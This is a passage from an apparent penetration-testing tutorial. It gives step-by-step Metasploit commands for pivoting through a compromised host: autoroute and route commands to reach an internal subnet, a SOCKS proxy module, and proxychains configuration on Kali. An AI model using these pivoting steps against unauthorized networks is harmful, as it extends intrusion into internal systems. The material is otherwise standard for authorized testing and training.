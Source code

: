 2) Add a route for the internal subnet (choose ONE approach)

- Quick Meterpreter script:
```
# In meterpreter
run autoroute -s 10.10.20.0/24
```

- Or via Metasploit post module:
```
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 10.10.20.0
set NETMASK 255.255.255.0
run
```

- Or via msfconsole route command (global):
```
# In msfconsole (not meterpreter)
route add 10.10.20.0 255.255.255.0 1
route print
```

3) Start a SOCKS proxy in Metasploit (prefer SOCKS5; fallback to SOCKS4a)

- Modern module:
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
set VERSION 5
set AUTH false
run -j
```

- Older module (if available):
```
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
set SRVPORT 1080
run -j
```

4) Configure proxychains on Kali to use the SOCKS proxy
```
# Append one of the following lines to the bottom of /etc/proxychains4.conf
# Prefer SOCKS5 if you used socks_proxy VERSION 5
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf

# If you used socks4a:
# echo "socks4 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf

# Also ensure 'proxy_dns' is enabled in /etc/proxychains4.conf to avoid DNS leaks
sudo sed -i 's/^#*proxy_dns/proxy_dns/' /etc/proxychains4.conf
```
